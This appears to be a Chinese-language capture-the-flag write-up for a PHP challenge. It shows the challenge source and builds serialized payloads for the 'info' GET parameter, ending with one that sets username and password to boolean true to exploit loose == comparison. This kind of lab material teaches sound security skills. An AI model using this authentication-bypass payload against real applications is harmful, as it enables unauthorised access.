

分析源码：

 

 

 

判断是否以get传参info

false则返回空字符串

接着对$info进行反序列化

并且反序列化得到数组

 

数组中username满足

$username = "this_is_secret";

password满足

$password = "this_is_not_known_to_you"; 

 

首先序列化数组

 

 

<?php

show_source(__FILE__);

$username = "this_is_secret";

$password = "this_is_not_known_to_you"; 

include("flag.php");//here I changed those two 

$info = isset($_GET['info'])? $_GET['info']: "" ;

$data_unserialize = unserialize($info);

if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){

  echo $flag;

}else{

  echo "username or password error!";

}

$info=['username'=>"this_is_secret",'password'=>"this_is_not_known_to_you"];

echo serialize($info);

?>

得到

a:2:{s:8:"username";s:14:"this_is_secret";s:8:"password";s:24:"this_is_not_known_to_you";}

构造payload：

[http://node5.anna.nssctf.cn:25235/?info=a:2:{s:8:"username";s:14:"this_is_secret";s:8:"password";s:24:"this_is_not_known_to_you";}](http://node5.anna.nssctf.cn:25235/?info=a:2:{s:8:;s:14:;s:8:;s:24:;})

提示：

 

 

 

 

==弱类型比较

true和什么比较都为真

修改

 

<?php

show_source(__FILE__);

$username = "this_is_secret";

$password = "this_is_not_known_to_you"; 

include("flag.php");//here I changed those two 

$info = isset($_GET['info'])? $_GET['info']: "" ;

$data_unserialize = unserialize($info);

if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){

  echo $flag;

}else{

  echo "username or password error!";

}

$info=['username'=>true,'password'=>true];

echo serialize($info);

?>

 

得到

a:2:{s:8:"username";b:1;s:8:"password";b:1;}

 

 

 

 